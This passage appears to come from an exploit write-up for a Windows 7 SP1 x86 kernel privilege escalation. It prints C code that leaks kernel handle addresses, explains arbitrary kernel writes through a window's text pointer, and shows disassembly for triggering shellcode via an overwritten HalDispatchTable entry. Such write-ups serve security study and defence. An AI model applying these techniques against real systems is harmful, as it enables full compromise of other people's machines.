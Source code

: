 Thus, I can obtain the kernel address from a handle by the function:

    PVOID GetMappedHandlePtr(HANDLE MyHandle, PVOID * UserlandPtr)
    {
    	HANDLEENTRY * UserHandleTable = g_pSharedInfo->aheList;
    	ULONG cEntries = g_pSharedInfo->psi->cHandleEntries;
    	ULONG dwIndex = (ULONG)MyHandle & 0xFFFF;
    	ULONG dwUniq = (ULONG)MyHandle >> 16;
    	if(dwIndex <= cEntries) {
    		if (dwUniq == UserHandleTable[dwIndex].wUniq) {
    			*UserlandPtr = (PVOID)(
                    (ULONG_PTR)UserHandleTable[dwIndex].phead - g_DeltaDesktopHeap);
    			return (PVOID)UserHandleTable[dwIndex].phead;
    		}
    	}
    	return NULL;
    }

In the step 17, 18 and 20, I want to write some bytes to kernelland, so I leverage the Window text. It is a LARGE\_UNICODE\_STRING allocated on the desktop heap and associated a window object. We can found it in tagWND structure, on win7\_sp1\_x86, its offset is 0x84, and the offset 0x8c is just the pointer we can control to read/write. In userland, I can call NtUserDefSetText() to set the window's text, the contents of text would be wrote to the kernel address we want to.

In the step 19, I trigger the last target, shellcode. By calling NtQueryIntervalProfile() in userland, the hal!HaliQuerySystemInformation would be called originally, but its function pointer in the nt!HalDispatchTable has been replaced with myself function at step 18. By the way, when the 1st parameter of NtQueryIntervalProfile would be set to 1, there will be a short-circuit, due to the following code at offset 84115505:

    nt!KeQueryIntervalProfile:
    841154fd 8bff            mov     edi,edi
    841154ff 55              push    ebp
    84115500 8bec            mov     ebp,esp
    84115502 83ec10          sub     esp,10h
    84115505 83f801          cmp     eax,1
    84115508 7507            jne     nt!KeQueryIntervalProfile+0x14 (84115511)
    8411550a a108f7fa83      mov     eax,dword ptr [nt!KiProfileAlignmentFixupInterval (83faf708)]
    8411550f c9              leave
    84115510 c3              ret

Beyond that, any other value would be done.

In order to track the whole corrupting procedure conveniently, I print some central value in console. 
